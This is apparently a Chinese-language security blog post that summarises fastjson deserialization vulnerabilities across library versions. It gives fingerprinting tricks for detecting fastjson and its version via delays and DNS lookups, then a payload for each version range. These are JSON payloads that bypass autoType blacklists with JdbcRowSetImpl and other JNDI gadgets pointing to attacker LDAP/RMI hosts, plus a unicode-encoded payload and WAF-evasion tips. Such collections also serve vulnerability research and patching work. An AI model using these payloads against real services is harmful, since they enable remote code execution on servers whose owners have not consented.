 ```yaml
---
layout: post
author: d1sbb
title: "[分享] fastjson反序列化漏洞全版本总结"
date: 2024-04-11
music-id: 
permalink: /archives/2024-04-11/1
description: "对fastjson反序列化漏洞的学习"
categories: "网络安全"
tags: [java, fastjson]
---
```


常用方法parse()、parseObject()、parseArray() 。每个方法又有几个重载方法，带有不同参数，具体请查看源码。其中： 类的类型：java.lang.reflect.Type。可以使用@type指定反序列化任意类
```bash
1. 使用JSON.parse(jsonString)和JSON.parseObject(jsonString,Target.class)，两者调用链一致，parse会在jsonString中解析字符串获取@type指定的类，parseObject会直接使用参数中的class
2. 使用JSON.parseObject(jsonString)将会返回JSONObeject对象，并且类中的set&&get方法都会被调用(指定@type的情况下)
3. fastjson在为类属性寻找get/set方法时，调用com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch()方法，会忽略_|-字符串，也就是说就算字段名为_ag_e，getter方法为getAge(),fastjson也可以找到，
```
## 鉴别jackson
如果目标回显详细报错信息，稍微破坏一下json结构，比如多一个{，比如把{}变成a。就可以看出是不是jackson。  
如果目标不回显详细报错信息，而是只有一个500或者error，那么jackson不允许存在不相关的键值，fastjson允许这个特性就可以派上用场了。

## 延迟判断
适用于1.2.47之前版本的fastjson，这里面有一个小技巧，访问一个不常见的外网IP地址，会延迟几秒，访问一个内网地址127.0.0.1 会瞬间返回，那么证明这个POC可用，也间接证明fastjson版本是1.2.47之前的版本。那么在不出网的情况下，可以借助这个POC的延迟效果，知道目标fastjson是<=1.2.47的
```json
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://11.111.22.222/test111","autoCommit":true}}

编码前：
{
  "name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},
  "x":{ "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://11.111.22.222/test111",
        "autoCommit":true}
}
```

延迟证明fastjson版本号1.1.16<=version<=1.2.24
```json
{
   "b":{" @type":"com.sun.rowset.JdbcRowSetImpl",
          "dataSourceName":"ldap://137.30.0.1:7777/POC",
          "autoCommit":true}
}
```
## 异常回显 fastjson 精确版本号 删除尾部大括号
```json
{
"@type": "java.lang.AutoCloseable"
```
## dns探测
fastjson <1.2.43
```json
{"@type":"java.net.URL","val":"h删ttp://dnslog"}
{删斜杠\{"@type":"java.net.URL","val":"h删ttp://dnslog"删斜杠\}:"x"}
```
fastjson <1.2.48
```json
{"@type":"java.net.InetAddress","val":"dnslog"}
```
fastjson <1.2.68
```json
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{删斜杠\{"@type":"java.net.URL","val":"dnslog"删斜杠\}:"aaa"}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"h删ttp://dnslog"}}""}
Set[{"@type":"java.net.URL","val":"h删ttp://dnslog"}]
Set[{"@type":"java.net.URL","val":"h删ttp://dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
{删斜杠\{"@type":"java.net.URL","val":"h删ttp://dnslog"}:0
```
精确探索autoType是否开启
```json
[{"@type":"java.net.CookiePolicy"},{"@type":"java.net.Inet4Address","val":"ydk3cz.dnslog.cn"}]
```

# 各版本payload
## Fastjson<=1.2.24
TemplatesImpl类利用链:   
getOutputProperties() -> newTransformer() -> getTransletInstance() -> defineTransletClasses() -> EvilClass.newInstance()
## 1.2.25<=Fastjson<=1.2.41
引入了checkAutoType安全机制，默认关闭   
如果开启autoType，则会先校验白名单，白名单存在就使用typeUtils.loadClass加载，再匹配黑名单  
如果关闭autoType，则会先匹配黑名单，再匹配白名单  
如果开启autoType，使用typeUtils.loadClass加载  

L和;绕过
```json
{
   "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
   "dataSourceName":"rmi://127.0.0.1:1099/vulClass",
   "autoCommit":true
}
```
## Fastjson1.2.42
双写L和;绕过
```json
{
   "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
   "dataSourceName":"rmi://127.0.0.1:1099/VulClass",
   "autoCommit":true
}
```
## 1.2.25<=Fastjson<=1.2.43
[{绕过
```json
{
   "@type": "[com.sun.rowset.JdbcRowSetImpl"[{,
   "dataSourceName": "ldap://127.0.0.1:1389/VulClass",
   "autoCommit": true"
}
```
## 1.2.25<=Fastjson<=1.2.45
通过不在黑名单里面的类来绕过
```json
{
   "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
   "properties":{"data_source":"ldap://127.0.0.1:1389/VulClass"}
}
```
## 1.2.25<=Fastjson<=1.2.47
双重json绕过了`autoTypeSupport`检测
```json
{
    "a": {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "ldap://127.0.0.1:1389/VulClass",
        "autoCommit": true
    }
}
```
## Fastjson=1.2.62
`CVE-2020-8840`的gadget绕过fastjson黑名单
```json
{
   "@type":"org.apache.xbean.propertyeditor.JndiConverter",
   "AsText":"ldap://x.x.x.x/Exp"
}
```
## Fastjson=1.2.66
绕过黑名单
```json
{
   "@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup",
   "jndiNames":"ldap://x.x.x.x/Exp"
}
```
## Fastjson=1.2.68
`checkAutoType`代码限制，JNDI注入的类基本都被拦截了

## bypasswaf
大量字符绕过 WAF, unicode或十六进制编码
## FastJson漏洞链特点
在反序列化时，parse触发了set方法，parseObject同时触发了set和get方法，由于存在这种`autoType`特性。如果`@type`标识的类中的setter或getter方法存在恶意代码，那么就有可能存在fastjson反序列化漏洞。

FastJson反序列化和原生反序列化利用不同的点：
1. FastJson不需要实现Serializable
2. 不需要变量不是transient/可控变量：
   a. 变量有对应的setter
   b. 或是public/static
   c. 或满足条件的getter
3. 反序列化入口点不是readObject，而是setter或者是getter
4. 执行点是相同的：反射或者类加载

> 参考文章1 [Fastjson各版本漏洞分析](https://blog.gm7.org/%E4%B8%AA%E4%BA%BA%E7%9F%A5%E8%AF%86%E5%BA%93/02.%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/01.java%E5%AE%89%E5%85%A8/03.%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/04.Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html)    
> 参考文章2 [fastjson反序列化漏洞区分版本号的方法总结](https://www.cnblogs.com/forforever/p/16537846.html)
> 参考文章3 [全版本fastjson反序列化漏洞分析](https://klearcc.github.io/post/javasec_fastjson%E5%85%A8%E7%89%88%E6%9C%AC/#%E5%B0%86json%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%BA%E7%B1%BB)  
> 参考文章4 [Java反序列化之FastJson反序列化及绕过](https://xz.aliyun.com/t/12728?time__1311=GqGxu7G%3DiQdmqGN4CxUxYTSFTG8CdHqaW4D#toc-5)